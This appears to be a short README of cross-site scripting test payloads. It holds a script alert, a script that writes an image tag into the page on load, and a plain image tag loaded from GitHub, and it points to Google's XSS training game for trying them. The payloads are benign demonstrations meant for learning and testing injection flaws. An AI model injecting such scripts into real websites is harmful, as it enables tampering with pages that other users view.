 # Alert
```js
<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image XSS using the JavaScript directive

```js
<img src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 
```url
https://xss-game.appspot.com/level1
```
